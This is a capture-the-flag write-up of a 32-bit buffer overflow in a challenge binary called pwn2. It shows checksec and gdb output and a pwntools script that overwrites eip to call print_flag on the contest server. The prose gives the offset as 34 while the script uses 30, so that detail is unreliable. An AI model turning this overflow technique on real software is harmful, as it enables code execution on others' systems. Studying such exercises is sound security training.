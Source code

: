 ## pwn2
##### *tl;dr: buffer overflow into overwrite eip to call print_flag function*
#### Standard for all pwn challenges - we start a simple reconnaisance by using checksec
```
$ checksec pwn2
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### We get the same properties such as the previous pwn challenge. Starting the binary, we get a prompt which asks us which function to call:
```
$ ./pwn2
    Which function would you like to call?
```
#### It waits for user input, and if the user enters a valid function name, it executes that function, else it exits. But we don't really know which functions to call, so we fire up gdb and look at the disassembly of the binary.
```
$ gdb ./pwn2
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x0000080d <+49>:	add    esp,0x10
       0x00000810 <+52>:	sub    esp,0xc
       0x00000813 <+55>:	lea    eax,[ebx-0x1670]
       0x00000819 <+61>:	push   eax
       0x0000081a <+62>:	call   0x500 <puts@plt>
       0x0000081f <+67>:	add    esp,0x10
       0x00000822 <+70>:	sub    esp,0xc
       0x00000825 <+73>:	lea    eax,[ebp-0x27]
       0x00000828 <+76>:	push   eax
       0x00000829 <+77>:	call   0x4e0 <gets@plt>
       0x0000082e <+82>:	add    esp,0x10
       0x00000831 <+85>:	sub    esp,0xc
       0x00000834 <+88>:	lea    eax,[ebp-0x27]
       0x00000837 <+91>:	push   eax
       0x00000838 <+92>:	call   0x77f <select_func>
       [...]
```
#### Interestingly enough, a ```gets``` call is executed to ask for the user input, which can be the entry point for our exploit. But another function to take note of is ```select_func``` which uses the buffer at ```[ebp-0x27]``` as the argument. Let's have a look at all the functions in the binary so we know what options are available for us to choose from:
```
gdb-peda$ info functions
    [...]
    0x000006ad  two
    0x000006d8  print_flag
    0x00000754  one
    0x0000077f  select_func
    0x000007dc  main
    [...]
```
#### We see the functions main and select func, which we already know by disassembling the main function of the binary. And we see the interesting functions, one, two, and print_flag: if we try to input these options in the prompt, maybe it'll give us the flag of the challenge.
```
$ ./pwn2
Which function would you like to call?
one
This is function one!

$ ./pwn2
two

$ ./pwn2
print_flag
```
#### Sadly, we get nothing out of it. We do want to be able to execute the print_flag function tho, as we know it prints the flag for us. Remember that the input uses ```gets``` to get user input? We can utilize that vulnerability to perform a buffer overflow into overwriting the ```eip``` register to point to the address of the ```print_flag``` function. Before we do that, we need to know the address of the function. We can do that using *objdump*:
```
$ objdump -M intel -d pwn2 | grep print_flag
    000006d8 <print_flag>:
        [...]
```
#### We take a note that ```print_flag```'s address is at ```0x000006d8```. Next thing we need to know is the exact size of the buffer to trigger the segmentation fault. Though the buffer is stored at address ```[ebp-0x27]``` which has a size of 39, the exact offset to overflow the buffer and overwrite the eip register is at offset 34. We can now create a short exploit script and send the result to the server to get the flag.
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4322
conn = remote(HOST, PORT)

#: Exploit code
offset = 'A' * 30
eip = p32(0x000006d8)
exploit = offset + eip

#: Send data
print(conn.recvline())
conn.sendline(exploit)
print(conn.recvline())
print(conn.recvline())
```
#### And the script returns us the flag!
```
$ python exploit.py

    Which function would you like to call?

    This function is still under development.

    gigem{4ll_17_74k35_15_0n3}
```
